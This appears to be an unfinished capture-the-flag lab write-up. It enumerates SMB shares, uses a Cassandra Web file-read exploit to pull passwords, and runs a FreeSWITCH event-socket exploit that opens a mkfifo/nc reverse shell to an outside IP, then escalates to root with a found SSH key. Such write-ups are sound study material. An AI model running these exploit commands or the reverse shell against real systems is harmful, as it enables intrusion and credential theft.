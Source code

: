 #InProgress 
```
192.168.206.240
```
# Enumeration

Debian 10+deb10u2

## SMB
Port 139 - Samba smbd 3.X - 4.X
Port 445 - Samba smbd 4.9.5
```
nxc smb 192.168.229.240 -u '' -p '' --shares
```
```
print$                          Printer Drivers
backup          READ            Backup web directory shares
IPC$                            IPC Service (Samba 4.9.5-Debian)
```
PASS POL
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241121171143.png?raw=true)
```
nxc smb 192.168.229.240 -u '' -p '' --rid-brute 3000
```
hash.conf.xml
```
<remote name="Test1" host="10.0.0.10" port="8021" password="ClueCon" interval="1000" />
```
sofia.conf.xml
```
The rabbit hole goes deep.  This includes all the
profiles in the sip_profiles directory that is up
one level from this directory.
```
Interesting files
```
/etc/freeswitch/jingle_profiles/client.xml
/etc/freeswitch/jingle_profiles/server.xml
/etc/freeswitch/autoload_configs/hiredis.conf.xml
/etc/freeswitch/autoload_configs/hash.conf.xml
/etc/freeswitch/autoload_configs/switch.conf.xml
/etc/freeswitch/autoload_configs/event_socket.conf.xml
/usr/share/doc/cassandra/CQL.html
```
## HTTP 80
Apache httpd 2.4.38
forbidden

## HTTP 3000
cassandra web
version: thin httpd
DIRS
```
/hosts

[
  {
    "ip": "127.0.0.1",
    "id": "39c6f1e3-d798-44ce-b216-ce0f664fc0af",
    "datacenter": "datacenter1",
    "rack": "rack1",
    "release_version": "3.11.13",
    "status": "up"
  }
]

events
```
 there is an exploit for cassandra web
 https://www.exploit-db.com/exploits/49362
## 8021 freeswitch
FreeSWITCH mod_event_socket

# Exploitation
## Cassandra web
https://www.exploit-db.com/exploits/49362
if we follow the recommendations from the exploit we can see
```
python cass_web.py -p 3000 192.168.206.240 /etc/passwd
```
It works! We get users we already had
```
python cass_web.py -p 3000 192.168.206.240 /proc/self/cmdline
```
we get a new password!!
*SecondBiteTheApple330*
for user cassie
double checking files we downloaded from smb we see a new password
```
python cass_web.py -p 3000 192.168.206.240 /etc/freeswitch/autoload_configs/event_socket.conf.xml
```
we get a password
```
<param name="password" value="StrongClueConEight021"/>
```

WE CANNOT SSH WITH ANY OF THE CREDENTIALS....
## FreeSWITCH
```
python freeswitch-exploit.py 192.168.206.240 'ls' StrongClueConEight021
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241122110749.png?raw=true)
```
python freeswitch-exploit.py 192.168.206.240 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.190 80 >/tmp/f' StrongClueConEight021
```
we get a shell!
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241122111752.png?raw=true)
# PrivEsc
## Shell upgrade + basic info
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241122111940.png?raw=true)

## Manual
we see a unusual path for an id_rsa
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241122112202.png?raw=true)
we switch to user cassie with our password
```
su cassie
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241122113444.png?raw=true)
with the id_rsa we saw earlier we can ssh into root
```
ssh root@localhost -i id_rsa
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241122114103.png?raw=true)

the local.txt flag is a little bit hidden too
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241122114317.png?raw=true)
## Automated

### Peass
### Mimikatz

# Lateral Movement
